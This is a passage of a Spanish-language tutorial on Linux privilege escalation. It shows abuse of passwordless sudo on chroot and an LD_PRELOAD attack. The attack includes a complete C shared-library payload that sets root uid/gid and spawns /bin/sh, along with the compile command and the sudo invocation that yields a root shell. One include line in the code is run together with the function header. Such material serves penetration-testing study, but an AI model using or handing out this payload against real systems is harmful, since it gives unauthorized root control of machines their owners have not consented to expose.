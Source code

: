 Usaremos la siguiente fuente:

[https://gtfobins.github.io/](https://gtfobins.github.io/)

![](/assets/images/escalada-de-privilegios/gtfochroot.png)

```bash
❯ sudo chroot /
❯ id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),119(wireshark),143(kaboxer)  
```
Como vemos, hemos pasado del usuario kali al usuario root.

# ESCALADA VARIABLE LD_PRELOAD
```bash
LD_PRELOAD es una variable ambiental opcional que contiene una o más rutas a bibliotecas compartidas u objetos compartidos, que el cargador cargará antes que cualquier otra biblioteca compartida, incluida la biblioteca en tiempo de ejecución de C (libc.so). Es decir, precarga una biblioteca.
```

Las maneras en que se buscan y cargas las librerías tenemos:

    LD_PRELOAD: Objetos compartidos que se cargaran antes de cualquier libreria.

    LD_LIBRARY_PATH: Camino a los directorios de librerias.

    /etc/ld.so.conf

LD_Preload es la variable de entorno que lista las rutas de la librerías compartidas, al igual que /etc/ld.so.preload.

Lo primero que debemos tener en cuenta es que debemos tener algunos derechos de sudo, en mi caso puedo ejecutar el binario chroot como root sin contraseña, de forma que lo aprovecharemos.

Generamos un pequeño programa en C llamado escalada.c.

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

Lo compilamos con el siguiente comando:

`cc -fPIC -shared -o escalada.so escalada.c -D_GNU_SOURCE -nostartfiles`

Una vez compilado ejecutamos el siguiente comando:

`sudo LD_PRELOAD=/tmp/escalada.so chroot`

**Y seremos root**

Añadiré más vectores de escalada poco a poco.

